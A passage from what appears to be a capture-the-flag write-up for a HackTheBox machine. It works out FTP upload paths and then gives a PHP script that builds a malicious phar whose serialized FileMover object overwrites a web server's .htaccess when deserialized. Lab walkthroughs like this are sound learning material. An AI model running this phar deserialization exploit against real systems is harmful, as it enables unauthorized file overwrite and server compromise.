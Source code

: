 Secondly, to be able to move the files, we need to know where the files from ftp are being uploaded to and where the files are being moved to. If we do a quick google about `default ftp home directory linux` we see its telling is that its `/srv/ftp`, and since we are uploading our file to a directory called `uploades` the complete upload path should be `/srv/ftp/uploads`. Since there is a vhost called `files.notertwo.htb`, the destination directory could be `/var/www/files/` so our destination file should be `/var/www/files/.htaccess`

Now that we know all this, we can use the vulnerable `FileMover` class source code to  create a script like this that will generate us our phar file.

```php
<?php

class FileMover
{
    public $src_file;
    public $dst_path;

    public function __construct($src_file, $dst_path)
    {
        $this->src_file = $src_file;
        $this->dst_path = $dst_path;
    }

    public function __destruct()
    {
        $source = $this->src_file;
        $destination = $this->dst_path;

        if (!rename($source, $destination)) {
            return false;
        }

        return true;
    }
}

$phar = new Phar('kavi.phar');
$phar->startBuffering();
$phar->addFromString('test.txt', 'text');
$phar->setStub("<?php __HALT_COMPILER(); ?>");

// add object of any class as meta data
$object = new FileMover('/srv/ftp/uploads/kavi', '/var/www/files/.htaccess');
$phar->setMetadata($object);
$phar->stopBuffering();
?>


```

As per the `FileMover` class, it accepts the source file as the 1st argument and the destination file as the 2nd argument.
